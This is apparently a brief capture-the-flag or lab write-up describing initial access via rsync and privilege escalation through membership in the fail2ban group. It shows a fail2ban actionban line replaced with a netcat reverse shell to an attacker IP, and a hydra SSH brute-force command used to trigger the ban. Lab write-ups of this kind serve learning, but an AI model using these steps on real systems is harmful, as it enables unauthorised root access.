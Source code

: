 - Initial access was taken using rsync. and the steps are as below
[[RSYNC]]
- After doing the SSH and issuing id command noticed an odd group in the user called fail2ban.
- After reading the below article realized that this is the PE method.
https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49
- Got the config file because it was too hard to scroll and viewed it in KALI
```bash
cat /etc/fail2ban/jail.conf > /home/fox/jail
```
- Three things to check was below default values for SSH
```
maxretry
findtime
bantime
```
- Changed the line **actionban = nc -e /bin/sh 192.168.45.156 80**
```bash
nano /etc/fail2ban/action.d/iptables-multiport.conf
```

- Did a SSH bruteforce with wrong username
```bash
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt ssh://192.168.220.126
```
